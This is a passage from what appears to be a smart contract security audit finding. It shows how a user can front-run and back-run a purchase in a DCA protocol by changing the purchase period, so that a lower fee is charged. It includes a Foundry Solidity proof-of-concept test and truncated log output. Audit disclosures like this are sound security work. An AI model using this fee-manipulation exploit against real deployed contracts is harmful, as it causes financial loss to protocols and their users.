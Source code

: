    However, the correct calculation of `annualSpending` should be:  
   - `annualSpending = purchaseAmount * 365_days / purchasePeriod = 100 * 365 / 10 = 3_650`  
   - Since `annualSpending < s_minAnnualAmount`, the `s_maxFeeRate` should be applied.

5. Bob backruns the transaction by calling `setPurchasePeriod()` again, resetting it back to 10 days because he intends to buy rBTC only every 10 days.

6. As a result, Bob pays a reduced fee, exploiting the system and causing a loss to the protocol.

\section*{Proof of Concept}
To run the POC, copy the test below in `RbtcPurchaseTest.t.sol`, `DcaDappTest.t.sol` and modify the `setUp()`, specifically, set the `purchasePeriod` of the created schedule for USER to 20 days.

RbtcPurchaseTest.t.sol
```solidity
function testFrontrunSinglePurchase() external {
        super.makeFrontrunSinglePurchase();
    }
```

DcaDappTest.t.sol
```solidity
function makeFrontrunSinglePurchase() internal {

        vm.startPrank(USER);
        uint256 docBalanceBeforePurchase = dcaManager.getScheduleTokenBalance(address(docToken), SCHEDULE_INDEX);
        uint256 rbtcBalanceBeforePurchase = IPurchaseRbtc(address(docHandler)).getAccumulatedRbtcBalance();
        IDcaManager.DcaDetails[] memory dcaDetails = dcaManager.getMyDcaSchedules(address(docToken));
        vm.stopPrank();

        uint256 realFee = feeCalculator.calculateFee(DOC_TO_SPEND, 20 days);
        uint256 exploitedFee = feeCalculator.calculateFee(DOC_TO_SPEND, 1 days);
        
        console2.log("realFee:", realFee);
        console2.log("exploitedFee:", exploitedFee);
        console2.log("Loss:", realFee - exploitedFee);

        //frontrun to set to 1 day the purcahsed to reduce the fee paid
        vm.prank(USER);
        dcaManager.setPurchasePeriod(address(docToken), SCHEDULE_INDEX, 1 days);

        vm.prank(SWAPPER);
        dcaManager.buyRbtc(USER, address(docToken), SCHEDULE_INDEX, dcaDetails[SCHEDULE_INDEX].scheduleId);

        //backrun to set to 20 days the purachase
        vm.prank(USER);
        dcaManager.setPurchasePeriod(address(docToken), SCHEDULE_INDEX, 20 days);

        vm.startPrank(USER);
        uint256 docBalanceAfterPurchase = dcaManager.getScheduleTokenBalance(address(docToken), SCHEDULE_INDEX);
        uint256 rbtcBalanceAfterPurchase = IPurchaseRbtc(address(docHandler)).getAccumulatedRbtcBalance();
        vm.stopPrank();

        uint256 balanceFeeCollector = docToken.balanceOf(address(FEE_COLLECTOR));
        assertEq(balanceFeeCollector, exploitedFee);
        assertNotEq(balanceFeeCollector, realFee);
    }
```
```js
--------LOGS--------
realFee: 3960000000000000000
```